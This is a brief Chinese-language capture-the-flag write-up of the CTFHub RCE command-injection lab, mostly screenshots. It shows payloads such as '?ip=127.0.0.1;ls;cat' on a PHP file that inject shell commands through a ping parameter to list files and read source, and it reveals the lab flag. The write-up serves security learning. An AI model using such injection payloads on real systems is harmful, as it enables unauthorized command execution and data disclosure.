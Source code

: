 # 一、<font style="color:rgb(31,35,41);">Ctfhub-RCE模块----命令注入</font>


![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869042716-628c0662-eaa9-4b52-8bd7-8417c08ede64.png)

打开环境后发现这个页面，按照上课讲的，肯定是先访问自己![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869098526-6d23292f-0405-419f-b82a-e3755dd5fcca.png)

接着出现了数组

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869347310-3b4327cf-06f7-443d-976f-90f3addbfdc9.png)

之后列出目录内容，看一下文件有哪些

```shell
?ip=127.0.0.1;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869085155-53941a9c-04d7-47a1-863f-a4fd3ef058f9.png)

查看这个2760816330439.php文件

```shell
?ip=127.0.0.1;ls;cat 2760816330439.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869042753-4fa0310d-29ae-484e-9482-30a2696a875f.png)

再查看页面源代码就可以了得到flag了：ctfhub{4ce5f47f3595fceda2ebb063}

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869042691-bdb910eb-814f-4834-ae39-e1d39d3422eb.png)

又忍耐不住自己的好奇心，查看了index文件，感觉这个好像是这个页面的文件。

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736869234542-d14ace8b-abe1-4236-b7b7-905088fd87c0.png)

# 二、RCE-labs[0-8]题
